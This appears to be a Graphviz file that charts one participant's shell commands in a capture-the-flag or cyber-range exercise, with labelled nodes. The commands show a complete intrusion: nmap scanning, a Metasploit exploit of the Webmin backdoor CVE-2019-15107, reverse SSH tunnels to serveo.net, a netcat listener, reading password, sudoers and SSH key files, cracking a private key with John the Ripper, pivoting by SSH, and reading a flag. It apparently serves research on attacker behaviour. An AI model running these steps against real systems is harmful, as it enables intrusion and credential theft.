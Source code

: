 // creating graph for user: 77
digraph {
	node [shape=box]
	0 [label="ip a U"]
	1 [label="ping .. U"]
	2 [label="ping 8.8.8.8 U"]
	3 [label="namp 172.18.1.5 -A U"]
	4 [label="nmap 172.18.1.5 -A M0 "]
	5 [label="systemctl start ssh A16 "]
	6 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	7 [label="curl 172.18.1.5:10000 U"]
	8 [label="ssh root@127.0.0.1 A16 "]
	9 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net A16 "]
	10 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	11 [label="vim /etc/ssh/sshd_config A16 "]
	12 [label="systemctl restart ssh A16 "]
	13 [label="vim U"]
	14 [label="ll U"]
	15 [label="nmap -p 10000 -A 172.18.1.5 A1 "]
	16 [label="msfconsole M2 "]
	17 [label="search CVE-2019-15107 A3 "]
	18 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	19 [label="show A5 "]
	20 [label="show options M5 "]
	21 [label="set LHOST 172.18.1.5 M6 "]
	22 [label="show options U"]
	23 [label="back U"]
	24 [label="use exploit/unix/webapp/webmin_backdoor U"]
	25 [label="set RHOSTS 172.18.1.5 U"]
	26 [label="run U"]
	27 [label="set LPORT 6666 U"]
	28 [label="run U"]
	29 [label="set LHOST 0.0.0.0 U"]
	30 [label="run U"]
	31 [label="sessions -i U"]
	32 [label="sessions U"]
	33 [label="ip a U"]
	34 [label="show options U"]
	35 [label="set LHOST 192.168.130.188 U"]
	36 [label="set SRVHOST 192.168.130.188 U"]
	37 [label="run U"]
	38 [label="msfconsole U"]
	39 [label="use exploit/unix/webapp/webmin_backdoor U"]
	40 [label="show options U"]
	41 [label="set RHOSTS 172.18.1.5 U"]
	42 [label="run U"]
	43 [label="ip r U"]
	44 [label="set LHOST 10.1.135.83 U"]
	45 [label="run U"]
	46 [label="nc -l -p 7777 U"]
	47 [label="ll U"]
	48 [label="ls A10 "]
	49 [label="cd/ U"]
	50 [label="cd / U"]
	51 [label="ls A10 "]
	52 [label="cd /root U"]
	53 [label="ls A10 "]
	54 [label="ls -hlA A10 "]
	55 [label="ll U"]
	56 [label="ls A10 "]
	57 [label="ls .ssh A10 A16 "]
	58 [label="cat .ssh/autorized_keys A1 A9 A11 A12 A16 A17 "]
	59 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	60 [label="history U"]
	61 [label="ls A10 "]
	62 [label="ip a U"]
	63 [label="ps aux U"]
	64 [label="ps aux U"]
	65 [label="w U"]
	66 [label="ps aux U"]
	67 [label="ps aux  A9 A11 A12 A17 "]
	68 [label="ping 10.1.135.83 U"]
	69 [label="s U"]
	70 [label="s U"]
	71 [label="s U"]
	72 [label="s U"]
	73 [label="s U"]
	74 [label="s U"]
	75 [label="s U"]
	76 [label="s U"]
	77 [label="sss U"]
	78 [label="ls A10 "]
	79 [label="ssh -R 6666:127.0.0.1:22 serveo.net A16 "]
	80 [label="ls A10 "]
	81 [label="ip a U"]
	82 [label="nmap A1 "]
	83 [label="cd /root U"]
	84 [label="ls A10 "]
	85 [label="apt udpate U"]
	86 [label="apt update U"]
	87 [label="apt install nmap A1 "]
	88 [label="cat /etc/crontab] A1 A9 A11 A12 A17 "]
	89 [label="cat /etc/crontab A1 A9 A11 A12 A17 "]
	90 [label="cat /etc/cron.*/* A1 A9 A11 A12 A17 "]
	91 [label="cd / U"]
	92 [label="cd /etc U"]
	93 [label="ls -hlA A10 "]
	94 [label="ls -hlA cron* A10 "]
	95 [label="crontab -l U"]
	96 [label="cat /etc/passwd A1 A9 A11 A12 A17 "]
	97 [label="cd /home U"]
	98 [label="ls A10 "]
	99 [label="ls -hlA * A10 "]
	100 [label="cd eve U"]
	101 [label="ls -hlA A10 "]
	102 [label="ls -hlA .ssh A10 A16 "]
	103 [label="cat .ssh/* A1 A9 A11 A12 A16 A17 "]
	104 [label="ls A10 "]
	105 [label="ls -hlA A10 "]
	106 [label="cd debian U"]
	107 [label="cd ../debian U"]
	108 [label="ls -hlA A10 "]
	109 [label="ls -hlA .ssh A10 A16 "]
	110 [label="cat .ssh/authorized_keys A1 A9 A11 A12 A16 A17 "]
	111 [label="cd .ansible U"]
	112 [label="ls A10 "]
	113 [label="ls -hlA A10 "]
	114 [label="cd tmp U"]
	115 [label="ls -hlA A10 "]
	116 [label="cd .. U"]
	117 [label="ls -hlA A10 "]
	118 [label="cd .. U"]
	119 [label="ls -hlA A10 "]
	120 [label="cat * A1 A9 A11 A12 A17 "]
	121 [label="cat .* A1 A9 A11 A12 A17 "]
	122 [label="ls -hlA A10 "]
	123 [label="cd .. U"]
	124 [label="ls -hlA A10 "]
	125 [label="ls -hlA * A10 "]
	126 [label="cd eve U"]
	127 [label="cat .bash_history M11 "]
	128 [label="ls -hlA A10 "]
	129 [label="nmap A1 "]
	130 [label="ls -hlA A10 "]
	131 [label="cat .bash_history A1 A9 A12 A17 "]
	132 [label="su eve U"]
	133 [label="ls -hlA A10 "]
	134 [label="ssh eve@10.1.17.4 M16 "]
	135 [label="exit U"]
	136 [label="ls A10 "]
	137 [label="ls -hlA A10 "]
	138 [label="cp .ssh/* /root/.ssh/ U"]
	139 [label="cd U"]
	140 [label="ls -hlA .ssh A10 "]
	141 [label="cd /home/eve U"]
	142 [label="ls -hlA A10 "]
	143 [label="cat .bash_history A1 A9 A12 A17 "]
	144 [label="ls -hlA A10 "]
	145 [label="ls -hlA /tmp A10 "]
	146 [label="alias ll='ls -hlA' A10 "]
	147 [label="ll U"]
	148 [label="cd .. U"]
	149 [label="ll U"]
	150 [label="ll * U"]
	151 [label="cd .. U"]
	152 [label="ll U"]
	153 [label="ll root U"]
	154 [label="cat root/.bash_history A1 A9 A12 A17 "]
	155 [label="ll U"]
	156 [label="cd /var/ U"]
	157 [label="ll U"]
	158 [label="cd webmin U"]
	159 [label="ll U"]
	160 [label="cd .. U"]
	161 [label="cd .. U"]
	162 [label="ll U"]
	163 [label="ll media U"]
	164 [label="ll opt U"]
	165 [label="ll srv U"]
	166 [label="cd var U"]
	167 [label="ll U"]
	168 [label="cd log U"]
	169 [label="ll U"]
	170 [label="cat syslog A1 A9 A12 A17 "]
	171 [label="ll U"]
	172 [label="zcat syslog.1 A1 A9 A12 A17 "]
	173 [label="cat syslog.1 A1 A9 A12 A17 "]
	174 [label="cd /etc/ansible U"]
	175 [label="cd /etc U"]
	176 [label="ll U"]
	177 [label="ll ssh U"]
	178 [label="ll U"]
	179 [label="cat sudoers A1 A9 A12 A17 "]
	180 [label="cd U"]
	181 [label="ll U"]
	182 [label="ll U"]
	183 [label="alias ll='ls -hlA' A10 "]
	184 [label="ll U"]
	185 [label="ll U"]
	186 [label="cd U"]
	187 [label="ll U"]
	188 [label="cd .ssh U"]
	189 [label="ll U"]
	190 [label="cat id_rsa M12 "]
	191 [label="ll U"]
	192 [label="alias ll='ls -hlA' A10 "]
	193 [label="ll U"]
	194 [label="cd Desktop/ U"]
	195 [label="ll U"]
	196 [label="vim id_rsa U"]
	197 [label="gpg2john id_rsa A14 "]
	198 [label="apt install ssh2john A14 "]
	199 [label="wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py A14 "]
	200 [label="chmod +x ssh2john.py A14 A15 "]
	201 [label="./ssh2john.py id_rsa A14 "]
	202 [label="./ssh2john.py id_rsa > x A14 "]
	203 [label="ll U"]
	204 [label="ll /usr/share/wordlists/rockyou.txt U"]
	205 [label="john --wordlist=/usr/share/wordlists/rockyou.txt x M14 "]
	206 [label="ll U"]
	207 [label="ll U"]
	208 [label="cd .. U"]
	209 [label="cat /home/eve/.bash_history A1 A9 A17 "]
	210 [label="ssh eve@10.1.17.4 U"]
	211 [label="ls -hlA A10 "]
	212 [label="alias ll='ls -hlA' A10 "]
	213 [label="cd /tmp U"]
	214 [label="ll U"]
	215 [label="ll U"]
	216 [label="cd U"]
	217 [label="history U"]
	218 [label="cat /home/eve/.bash_history A1 A9 A17 "]
	219 [label="ssh eve@10.1.17.4 U"]
	220 [label="alias ll='ls -hlA' A10 "]
	221 [label="ll U"]
	222 [label="cd top-secret U"]
	223 [label="ll U"]
	224 [label="cat flag.txt M17 "]
	225 [label="ll U"]
	226 [label="cd .. U"]
	227 [label="ll U"]
	228 [label="uname -a U"]
	229 [label="sudo -l U"]
	230 [label="ll U"]
	231 [label="cat /etc/passwd A1 A9 "]
	232 [label="w U"]
	233 [label="ll U"]
	234 [label="ll top-secret/ U"]
	235 [label="cat top-secret/flag.txt A1 A9 "]
	236 [label="ssh -R 6666:127.0.0.1:22 serveo.net U"]
	237 [label="ssh -R blabla:22:127.0.0.1:22 serveo.net U"]
	238 [label="ssh -R 6666:127.0.0.1:22 serveo.net U"]
	239 [label="ll U"]
	240 [label="cd / U"]
	241 [label="ll U"]
	242 [label="w U"]
	243 [label="ll opt U"]
	244 [label="ll srv/ U"]
	245 [label="cat /etc/passwd A1 A9 "]
	246 [label="cat /etc/cron* A1 A9 "]
	247 [label="ll /tmp/cron* U"]
	248 [label="ll /etc/cron* U"]
	249 [label="ll U"]
	250 [label="ip a U"]
	251 [label="ssh -R 6666:127.0.0.1:22 serveo.net U"]
	252 [label="ll U"]
	253 [label="uname -a U"]
	254 [label="cat /etc/api/sources.list A1 A9 "]
	255 [label="cat /etc/apt/sources.list A1 A9 "]
	256 [label="ll U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	213 -> 214 [constraint=false]
	214 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 218 [constraint=false]
	218 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 222 [constraint=false]
	222 -> 223 [constraint=false]
	223 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 226 [constraint=false]
	226 -> 227 [constraint=false]
	227 -> 228 [constraint=false]
	228 -> 229 [constraint=false]
	229 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 233 [constraint=false]
	233 -> 234 [constraint=false]
	234 -> 235 [constraint=false]
	235 -> 236 [constraint=false]
	236 -> 237 [constraint=false]
	237 -> 238 [constraint=false]
	238 -> 239 [constraint=false]
	239 -> 240 [constraint=false]
	240 -> 241 [constraint=false]
	241 -> 242 [constraint=false]
	242 -> 243 [constraint=false]
	243 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 247 [constraint=false]
	247 -> 248 [constraint=false]
	248 -> 249 [constraint=false]
	249 -> 250 [constraint=false]
	250 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	255 -> 256 [constraint=false]
	rankdir=LR
}
